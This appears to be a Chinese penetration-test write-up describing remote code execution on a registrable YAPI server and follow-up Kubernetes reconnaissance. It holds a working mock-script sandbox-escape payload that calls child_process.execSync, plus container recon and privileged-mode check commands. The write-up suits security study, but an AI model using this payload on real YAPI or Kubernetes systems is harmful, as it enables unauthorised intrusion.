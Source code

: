 ```yaml
---
title: 内网接管 K8s 并逃逸实战
---
```


<center><h1>RCE 进入内网接管 K8s 并逃逸进 xx 网</h1><b>本文作者：k.so</b><br><br></center>

---

<div align=center><img width="600" src="/img/1686304043.gif"></div>

苏格拉李说过：三分靠技术，七分靠运气

一次运气不错的内网之行 ～

故事从一个可以注册的 YAPI 说起

<img width="500" src="/img/1686304072.png"><br>

注册完进去在创建一个 mock 脚本

```bash
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const test = FunctionConstructor('return process')
const process = test()
mockJson = process.mainModule.require("child_process").execSync("ip show & id").toString()
```

<img width="1000" src="/img/1686305318.png"><br>

脚本创建完，在接口处找到这个接口，访问一下，拿到命令执行的回显

<img width="1000" src="/img/1686305358.png"><br>

进来之后，也不敢扫，而且时间也不急，慢工出细活嘛，不着急

发现是个 Docker 环境，想了想之前信息收集的时候目标有可能是用在私有云，于是试了下以下命令

```bash
df -T
```

存在 `/run/secrets/kubernetes.io`，确认是 K8s 环境，忘了截图，我就拿嘴呲吧

既然是 K8s 要么逃逸要么接管，先看看是不是特权模式

```bash
cat /proc/self/status | grep -qi '0000003fffffffff' && echo 'Is privileged mode'|| echo 'Not privileged mode'
```

很可惜，不是

<img width="800" src="/img/1686306055.png"><br>
